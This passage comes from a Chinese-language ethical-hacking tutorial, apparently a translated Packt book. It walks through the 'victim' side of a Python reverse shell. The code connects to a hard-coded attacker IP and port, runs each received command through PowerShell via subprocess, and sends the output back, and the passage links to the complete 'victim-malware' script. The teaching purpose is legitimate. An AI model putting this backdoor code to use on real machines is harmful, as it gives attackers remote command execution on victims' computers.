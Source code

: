 print("发生异常")

hacker_socket.close()

在受害者端，我们将接收到黑客发送的命令，使用**subprocess**模块执行命令，最后将结果发送回黑客。这部分将在 Windows 10 机器上进行编码。让我们在 Windows 机器上创建一个新项目，并尝试按照相同的步骤与黑客程序建立连接：

import socket

if __name__ == "__main__":

victim_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

hacker_IP = "192.168.74.128"

hacker_port = 8008

hacker_address = (hacker_IP, hacker_port)

victim_socket.connect(hacker_address)

正如我们在黑客程序中看到的，我们有一个**while**循环来持续发送命令，下面我们也会采用类似的方法：

data = victim_socket.recv(1024)

hacker_command = data.decode()

我们将添加一个类似的退出条件，就像我们在黑客程序中做的那样：

if hacker_command == "stop":

break

接下来，我们在受害者计算机上运行命令，并以字符串格式获取结果，如下所示：

output = subprocess.run(["powershell.exe", hacker_command], shell=True, capture_output=True)

**powershell.exe** 确保我们在 Windows 中使用 PowerShell 运行命令。**capture_output=True** 确保我们将结果接收在**output**变量中。

接下来，我们需要检查错误。如果命令执行期间发生错误，我们需要妥善处理，以免程序崩溃，否则我们会将结果发送回给黑客：

if output.stderr.decode("utf-8") == "":

command_result = output.stdout

else:

command_result = output.stderr

第一个条件检查是否在命令执行过程中没有错误，如果没有错误，我们将**command_result**变量设置为命令的输出，否则将**command_result**设置为错误。请注意，默认情况下这是以字节形式呈现的，因此我们不需要对其进行编码就能通过网络发送：

victim_socket.send(command_result)

最后，我们需要将所有命令执行代码放在**try-catch**块中，以处理任何异常并确保正确关闭套接字。完整的程序可以在这里找到：[`github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example09-victim-malware/victim.py`](https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example09-victim-malware/victim.py)。

让我们尝试在受害者机器上运行一些命令，并获取结果。首先，启动黑客程序，然后运行受害者程序。在黑客程序中输入命令，并查看其中包含的结果：
